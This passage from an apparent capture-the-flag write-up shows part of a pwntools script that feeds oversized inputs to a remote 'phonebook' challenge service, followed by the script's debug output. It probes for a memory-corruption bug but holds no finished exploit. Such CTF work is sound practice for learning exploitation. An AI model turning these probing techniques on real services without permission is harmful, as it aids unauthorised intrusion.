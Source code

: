 ```
    else:
        conn.send(number)


def create_contact(name, address, number):
    conn.sendline("1")
    send_info(name, address, number)
    conn.recvuntil(">")


def main():
    conn.recvuntil(">")

    create_contact("a"*100, "b"*80, "c"*80)
    conn.sendline("5")
    conn.recvuntil(">")


if __name__ == "__main__":
    main()
```

Running this script yields the following output.

```
$ ./test.py
[+] Opening connection to on.acictf.com on port 32840: Done
[DEBUG] Received 0x2a bytes:
    'Welcome to the experimental phonebook app!'
[DEBUG] Received 0x89 bytes:
    '\n'
    '\n'
    'Choose an option:\n'
    '1. Create a new contact\n'
    '2. Edit contact information\n'
    '3. Remove contact\n'
    '4. Call contact\n'
    '5. Print contact info\n'
    '6. Exit\n'
    '>'
[DEBUG] Sent 0x2 bytes:
    '1\n'
[DEBUG] Received 0x1a bytes:
    'Please enter contact name:'
[DEBUG] Sent 0x64 bytes:
    'a' * 0x64
[DEBUG] Received 0x1d bytes:
    'Please enter contact address:'
[DEBUG] Sent 0x50 bytes:
    'b' * 0x50
[DEBUG] Received 0x1a bytes:
    'Please enter phone number:'
[DEBUG] Sent 0x50 bytes:
    'c' * 0x50
[DEBUG] Received 0x86 bytes:
    '\n'
    'Choose an option:\n'
    '1. Create a new contact\n'
    '2. Edit contact information\n'
    '3. Remove contact\n'
    '4. Call contact\n'
    '5. Print contact info\n'
    '6. Exit'
[DEBUG] Received 0x2 bytes:
```
